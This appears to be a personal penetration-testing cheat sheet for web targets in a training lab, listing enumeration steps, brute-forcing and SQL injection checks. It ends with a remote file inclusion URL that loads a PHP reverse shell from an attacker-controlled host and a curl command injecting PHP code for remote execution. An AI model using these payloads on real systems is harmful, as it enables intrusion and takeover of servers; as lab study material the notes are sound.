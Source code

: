 # Web Path

## Methodology summary

* [ ] Use nmap / wappalyzer to **identify** the **technologies** used by the web server.
  * [ ] Any **known vulnerability** of the version of the technology? Think public CVE
  * [ ] Using any **well known tech**? Any **useful trick** to extract more information? Think information disclosure&#x20;
  * [ ] Any **specialised scanner** to run (like wpscan for wordpress sites)?
* [ ] Launch **general purposes scanners (gobuster, dirsearch etc)**.
* [ ] With the scans running, look at the source, network connections, cookies, robots.txt, sitemap, 404/403  error, and SSL/TLS scan.
* [ ] Start **spidering with Burp Suite.**
* [ ] When you identify a directory, also brute force that
* [ ] **Backups checking**: Test if you can find **backups** of **discovered files** appending common backup extensions.
* [ ] **Brute-Force parameters**: Try to **find hidden parameters**.
* [ ] Once you have **identified** all the possible **endpoints** accepting **user input**, check for all kind of **vulnerabilities** related to it.

## Basic Enumeration

* Find the index page
* Check wappalyzer in order to see what the page was built with
* What is the version of the web server running

### Paths

* Enumerate the url paths to see if anything is hidden, and to map the site
* Check `robots.txt`
* See if `php` files are taking parameters like `10.11.1.16/administrator/alerts/alertConfigField.php?urlConfig=`

### Is there a login form?

* If its `phpmyadmin` or another application
* Try default creds
* Try basic `SQL-i`

#### Is it user generated content?

* Is there a username?
* If there is use hydra and try to brute the login
* Try basic `SQL-i`

### Vulnerabilities

* Run `nikto`
* Exploit-db and look for vulnerabilities for the CMS or application running as well as the core version of the web server running
* Can you get RFI?

```
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://192.168.119.123/php_reverse_shell.php%00
```

* ![image](https://user-images.githubusercontent.com/75596877/133100040-9f4a1a6a-1b86-4955-9c4d-651d59e51b31.png)
* Can you now get RCE via RFI?

```
curl -s --data "<?system('ls -la');?>" "http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=php://input%00"
```

* Now can you get a true call back?
